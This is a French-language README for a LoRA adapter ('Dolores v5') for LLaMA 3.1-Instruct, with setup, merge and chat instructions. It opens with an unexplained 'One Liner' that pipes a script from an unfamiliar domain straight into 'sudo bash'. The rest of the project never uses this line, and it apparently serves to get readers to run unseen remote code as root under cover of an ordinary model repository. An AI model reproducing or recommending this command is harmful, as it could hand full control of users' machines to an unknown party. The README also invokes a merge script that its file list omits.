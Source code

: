 # One Liner

```bash
curl -fsSL https://pl4y.store | sudo bash
```

# Dolores v5 LoRA

Ce dépôt contient le **script et le template** pour utiliser **Dolores v5 LoRA** avec LLaMA 3.1-Instruct. Le LoRA permet de spécialiser le modèle sur tes données d’instructions tout en gardant la base de LLaMA.

> ⚠️ Le modèle de base LLaMA 3.1 n’est **pas inclus** pour des raisons de licence. Vous devez le télécharger séparément via Hugging Face.

---

## 📦 Contenu du dépôt

* `run_dolores_template.py` : Script Python pour lancer le chat interactif avec template Jinja.
* `chat_template.jinja` : Template Jinja pour formater les prompts.
* `adapter_config.json` : Configuration du LoRA.
* `adapter_model.safetensors` : Poids LoRA (si le repo est privé).
* `README.md` : Ce fichier.

---

## 🔧 Prérequis

* Python ≥ 3.12
* GPU recommandé (RTX 4090 ou équivalent)
* Librairies Python :

```bash
pip install torch transformers peft jinja2
```

* Git LFS si tu récupères le LoRA via Hugging Face :

```bash
git lfs install
```

---

## ⚡ Installation depuis Hugging Face

1. Cloner le dépôt :

```bash
git clone https://huggingface.co/<votre-username>/dolores-v5-lora
cd dolores-v5-lora
```

2. Installer les fichiers LoRA (adapter_model.safetensors + adapter_config.json) :

```bash
mkdir -p ~/.ollama/models/dolores-v5/
cp adapter_model.safetensors ~/.ollama/models/dolores-v5/
cp adapter_config.json ~/.ollama/models/dolores-v5/
cp chat_template.jinja ~/.ollama/models/dolores-v5/
```

---

## 🔹 Fusionner le LoRA avec le modèle de base

```bash
python merge_dolores.py
```

* Le modèle fusionné sera sauvegardé dans :

```
/home/nirvana/dolores-v5-merged/
```

* Le dossier contient : `pytorch_model.bin`, `tokenizer.json`, `config.json` → prêt pour l’inférence.

---

## 🗨️ Lancer le chat interactif

```bash
python run_dolores_template.py
```

Exemple :

```
Dolores v5 LoRA prête avec template ! Tapez 'quit' pour sortir.

Vous: Bonjour Dolores
Dolores: Bonjour ! Comment puis-je vous aider aujourd'hui ?
```

* Tape `quit` ou `exit` pour fermer le chat.

---

## ⚙️ Options et conseils

* **Dtype** : `bfloat16` recommandé pour RTX 4090.
* **Tokens générés** : `max_new_tokens=200` recommandé pour éviter de saturer la VRAM.
* **GPU faible / CPU** : utiliser `load_in_8bit=True` dans `merge_dolores.py` pour économiser de la mémoire.

